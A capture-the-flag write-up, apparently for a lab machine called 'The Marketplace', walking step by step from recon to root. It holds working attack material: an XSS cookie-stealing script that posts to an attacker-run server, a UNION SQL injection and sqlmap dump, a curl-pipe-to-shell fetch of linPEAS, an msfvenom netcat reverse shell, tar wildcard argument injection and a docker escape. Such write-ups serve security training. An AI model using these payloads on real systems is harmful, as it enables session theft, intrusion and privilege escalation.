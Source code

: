 # The Marketplace

Lets start with some recon `nmap -A -sS -T4 <IP>`

Results:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-08 13:06 EST
Nmap scan report for 10.10.215.43
Host is up (0.033s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
|_http-server-header: nginx/1.19.2
32768/tcp open  http    Node.js (Express middleware)
|_http-title: The Marketplace
| http-robots.txt: 1 disallowed entry 
|_/admin
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Crestron XPanel control system (90%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.16 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%), Linux 2.6.32 (86%), Linux 2.6.32 - 3.1 (86%), Linux 2.6.39 - 3.2 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   32.96 ms 10.11.0.1
2   33.09 ms 10.10.215.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

So as we can see we have a simple structure of an ssh login on port 22 and an http webserver on port 80 that is mirrored for nodejs on port 32768. So lets head over to the website! While looking over the website I will run gobuster in the back to find hidden directories.

Okay so we can signup lets do that first thing that catches my eye is the 'new listing' feature we can probably upload a revshell there. (Also gobuster returned nothing intresting.) After trying to upload an image I see they have blocked that by putting a No image placeholder:

![Screen1](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.01.31%20PM.png)

So lets just try an XSS attack! With a simple `<script>alert('Hello!')</script>` in the description it works! we get a succesful alert. So lets take it to the next level and check if anyone (like an admin) is checking our post!

Lets start with making a simple server which can accept post request and log the data to our console! I will be making a node.js server for this because its what I prefer but there are many ways to do it. 

Start with a simple `npm init` then we can make a `server.js` file and add some simple code:

```js
const express = require('express')
const app = express()
const port = 3000
var bodyParser = require('body-parser')

// parse application/x-www-form-urlencoded
app.use(bodyParser.urlencoded({ extended: false }))

// parse application/json
app.use(bodyParser.json())

app.use(function(req, res, next) {
  res.header("Access-Control-Allow-Origin", "*");
  res.header("Access-Control-Allow-Headers", "Origin, X-Requested-With, Content-Type, Accept");
  next();
});

app.post('/cookies', (req, res) => {
  console.log(req.body);
})

app.listen(port, () => {
  console.log(`Malicious app listening on port ${port}`)
})
```

then just run `npm i express body-parser` and were good to go!

![Screen2](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%205.49.37%20PM.png)

Now back to the website if we change our script tu send post data to `YOURIP/cookies` we should get it logged directly! Easy right? We can use the following code as a test in our console to make sure we get the data.

```js
var xhr = new XMLHttpRequest();
xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
xhr.setRequestHeader('Content-Type', 'application/json');
xhr.send(JSON.stringify({
    value: 'value'
}));
```

Which should in result give us a simple `{ value: 'value' }` logged to our console! Well congrats we got the server working and ready to steal data! Now lets iinject this into a ticket! 

So as we had before `<script>alert('XSS')</script>` And just replace whats inside the script with what we just tested!

```html
	<script>
		var xhr = new XMLHttpRequest();
		xhr.open("POST", 'http://<YOURIP>:<PORT>/cookies', true);
		xhr.setRequestHeader('Content-Type', 'application/json');
		xhr.send(JSON.stringify({
			value: 'value'
		}));
	</script>
```

It works! Perfect now all we have to do is find important data like cookies and send them over by changing the body to:
`cookies: document.cookie`

Also make sure to report the post to the admins so one actually goes check it out!
After doing that we get:
```json
{
  cookies: 'token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NDY3NjMzNTF9.tG4DQ-jnozS-E3h69kXPOSlwPwAbqeskQZq0DkfseJo'
}
```

Cookies! Yay! We can now use firefox dev tools or just a chrome cookie editor extension and change our token to the admins!

![Screen3](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%207.23.09%20PM.png)

We now have access to the admins panel + our first flag GG! Lets keep going!
If we click on a user we can see this kind of url: `http://10.10.215.43/admin?user=4`
Which I think indicates it runs an SQL query based on users id so we can SQLi that. Lets try it.

Lets Imagine the query goes as such: 
`SELECT * FROM users WHERE id=(user input)`

So what if we tried inserting in the url the following SQL query:
`6 UNION SELECT @@version,1,1,1;---`
 We get a positive result! 
 
![Screen4](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2010.26.04%20PM.png)
 
So now lets run sqlmap on it:
`sqlmap http://<IP>/admin?user=3 --cookie='token=<TOKEN>' --technique=U --delay=2 -dump`

This will give us some juicy info

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.08.44%20PM.png)
 
Here we have the users table with some hashed passwords. We also get an intresting message:
`Hello! An automated system has detected your SSH password is too weak and needs to be changed. You have been generated a new temporary password. Your new password is: @b_ENXkGYUCAv3zJ`

and it was to `user_id 3` which means thats jake! Lets try logging into
`ssh jake@ip`

![Screen5](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-08%20at%2011.12.54%20PM.png)

Sick! Were in baby!! We can now just `cat user.txt` and get the second flag!
Time for the best part Priv Esc. I will run a simple [linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) 

First we can host a server on our Attack Machine: 
`python -m SimpleHTTPServer 80`
Then on our Victim Machine:
`curl <YOUR_IP>/linpeas.sh | sh`

After running linPEAS we have some intresting info:

```
(michael) NOPASSWD: /opt/backups/backup.sh
uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```

Contents of `/opt/backups/backup.sh`:
```bash
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

So we see that we can run the file wthout a password which is good and the file is using * a wildcard character which we can exploit! First in our Attacker Machine we need to create a payload using: `msfvenom -p cmd/unix/reverse_netcat lhost=<YOUR_IP> lport=9999 R`
After we get the payload back we can now inject it into a file on the victim machine using these following commands:
```bash
echo '<YOUR_PAYLOAD>' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

now if we open a `nc -nvlp 9999` on our machine and try to run: `sudo -u michael /opt/backups/backup.sh` we get an error about backup.tar permissions for michael so lets just `mv backup.tar bk.tar` and now if we run it again we get a reverse shell for michael!

![Screen6](https://github.com/Gomez0015/CTF-Writeups/blob/main/📄%20CTF%20Writeups/Images/Screen%20Shot%202022-03-09%20at%2011.27.51%20AM.png)

Lets just run a quick `python -c 'import pty; pty.spawn("/bin/sh")'` to get a better shell. So as we saw earlier in linPEAS michael is  docker user so we can exploit that with a quick [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) search! If we just scroll down to ==sudo== we can find the following payload:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

Which if we just run, and then check who we are with `whoami`, we are now root!
GG! Was a fun one some SQLi, XSS, Wildcard PrivEsc and Docker. See ya next time!

